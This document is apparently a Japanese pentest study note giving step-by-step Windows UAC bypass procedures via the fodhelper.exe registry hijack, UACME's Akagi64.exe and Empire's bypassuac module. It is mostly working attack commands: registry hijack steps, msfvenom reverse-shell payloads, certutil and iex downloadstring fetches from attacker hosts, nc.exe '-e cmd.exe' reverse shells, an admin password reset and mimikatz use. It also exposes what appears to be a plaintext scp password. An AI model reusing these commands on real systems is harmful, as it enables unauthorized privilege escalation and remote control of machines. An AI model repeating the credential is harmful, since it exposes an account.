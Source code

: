 # UACByPass

### fodhelper.exe

オペレーティングシステムの言語変更を管理するMicrosoftのサポートアプリケーションであるfodhelper.exeを利用したUACbyPass.

「アプリと機能」のWindows設定画面で「オプション機能の管理」オプションを選択するたびに、このアプリケーションが起動する。

<img src="img/Windows/UACByPass/image-20230106075428758.png" alt="image-20230106075428758" style="zoom:67%;" />

* アプリケーションマニフェスト（プログラム起動時にOSがそのプログラムをどのように処理するかを示す情報を含む XML ファイル）の検査をする

  ```cmd
  cd C:\Tools\privilege_escalation\Sysintern
  sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
  ```

  ![image-20230106075632722](img/Windows/UACByPass/image-20230106075632722.png)

  ![](img/UACByPass/image-20230106075632722-1673224263122-2.png)

  * administrator アクセストークンが必要
  * autoelevate フラグが true に設定されているため、管理者ユーザーに同意を求めることなく、実行ファイルが自動的に高信頼性に昇格することが可能

* procmon（Sysinternals suite）で「NAME NOT FOUND」のレジストリを調査する

  * procmonを起動したのち、fodhelper.exeを再起動する

  * Filterで絞り込みを行う

    ![image-20230106080656214](img/Windows/UACByPass/image-20230106080656214.png)

    ![](img/UACByPass/image-20230106080656214-1673224302083-5.png)

  * `HKCU:\Software\Classes\ms-settings\shell\open\command`レジストリーキーが存在しないことがわかる。

    ![image-20230106080749582](img/Windows/UACByPass/image-20230106080749582.png)

    ![](img/UACByPass/image-20230106080749582-1673224338455-8.png)

  * `HKCU:\Software\Classes\ms-settings\shell\open\command`レジストリーキーの検索のあと、**HKEY_CLASSES_ROOT**（HKCR）ハイブで同じキーにアクセスし、成功している。

    レジストリーエディターでも確認することができる（regedit)

    ![image-20230106080943088](img/Windows/UACByPass/image-20230106080943088.png)

    ![](img/UACByPass/image-20230106080943088-1673224359152-11.png)
    
    詳細を調べるとDelegateExecuteキーの値を特定のCOMクラスIDに設定したのち(Default)動作を実行するという流れのよう

* HKCUハイブ内のms-settingレジストリキーを登録する

  ```cmd
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  
  ---
  C:\Tools\privilege_escalation\SysinternalsSuite>REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  The operation completed successfully.
  ```

* 次にDelegateExecuteエントリーを追加する

  ```cmd
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
  ```

  * /v：値の名前を指定
  * /t：型を指定

  ![image-20230106081615681](img/Windows/UACByPass/image-20230106081615681.png)

  ![](img/UACByPass/image-20230106081615681-1673224378809-14.png)

* procmonのフィルターを「SUCCESS」に変更する。

  ![image-20230106081707074](img/Windows/UACByPass/image-20230106081707074.png)

  ![](img/UACByPass/image-20230106081707074-1673224399075-17.png)

  （Default)のレジストリーキーが実行されている

* 新しいレジストリー値を指定する

  ```
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
  ```

* レジストリが正しく設定されたことを確認する

  ```
  REG QUERY HKCU\Software\Classes\ms-settings\Shell\Open\command
  ```

  

* 再度fodhelper.exeを実行するとコマンドプロンプトが立ち上がる

  ![image-20230106081939053](img/Windows/UACByPass/image-20230106081939053.png)

  ![](img/UACByPass/image-20230106081939053-1673224430178-20.png)

  パスワード変更もできることを確認する
  
  ```
  net user admin Ev!lpass
  ```
  
* powershellで実行するパターン（リバースシェル実行版）

  ```
  New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
  New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
  Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd.exe /c start C:\Users\Administrator\rev_1234.exe" -Force
  Start-Process "C:\Windows\System32\fodhelper.exe"
  Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
  ```

  ※リバースシェルの実行時のコマンドの記載に注意

  ```
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.131 LPORT=12345 -f exe > rev_12345.exe
  ```

  

### UACME

https://github.com/hfiref0x/UACME

3. UACMeのリポジトリをクーロンする
     * ※masterブランチではなく、v3.2.xのブランチを使用すること

       ![image-20230114124559887](img/UACByPass/image-20230114124559887.png)
       
     * ※Akagi64.exeのコンパイル時はvisual studioのバージョンにあったSDKをプロパティから設定すること
     
       ![image-20230114124611192](img/UACByPass/image-20230114124611192.png)
     
  4. UAC bypass用のリバースシェルを作成する

     ```plaintext
     msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.17.20.12 LPORT=10010 -f exe > rev_10010_iga.exe
     ```
     
  5. Akagi64.exeとリバースシェルを配送する

     ```plaintext
     # kali
     /home/kali/Documents/tuikakensyu
     scp Akagi64.exe  test-student2@172.17.20.12:~/C2Server/igarashi/
     JwErS2wBLpnSr2G6RYR7Gvb9aWMechni
     
     # ws01
     certutil -urlcache -split -f "http://172.17.20.12:10018/Akagi64.exe" C:\tmp\igarashi\Akagi64.exe
     ```

     ```plaintext
     # kali
     scp rev_10010_iga.exe test-student2@172.17.20.12:~/C2Server/igarashi/
     JwErS2wBLpnSr2G6RYR7Gvb9aWMechni
     
     # ws01
     certutil -urlcache -split -f "http://172.17.20.12:10018/rev_10010.exe" C:\tmp\igarashi\rev_10010_iga.exe
     ```
     
  6. UACMeを実行する

     ```plaintext
     # C2Server
     nc -lvnp 10010
     C:\Users\makise\AppData\Roaming>Akagi64_iga.exe 33 C:\Users\makise\AppData\Roaming\rev_10010_iga.exe
     ```
     
  7. 権限昇格できたことを確認する

     ```plaintext
     whoami /all
     ```
     * Mandatory LabelがHighになっていること

     * sedebugprivilegeがついていること



### Empire powershell

* 事前にhttpリスナ及びlaunch.batのstagerでリバースシェルを取得しておく
* bypassuacのモジュールを何パターンか試す

```
usemodule powershell/privesc/bypassuac_env
execute
```

* Empire powershellのshellが使いづらいので`/home/kali/Documents/tools/nishang/Shells`のpsをリモート実行してリバースシェルを取得する。ps1ファイルの最後に実行するリバースシェルを記載する

  ![image-20230202193255845](img/UACByPass/image-20230202193255845.png)

* 以下コマンドをEmpire powershellで実行する

  ```cmd
  shell "iex(new-object net.webclient).downloadstring('http://192.168.119.133:8080/Invoke-PowerShellTcp.ps1')"
  ```

  ```bash
  nc -lvnp 443
  ```

* mimikatzを使う場合はnc.exeを配送し、ここからさらにリバースシェルを張る

  ```cmd
  .\nc.exe -nv 192.168.119.132 1234 -e cmd.exe
  ```

  
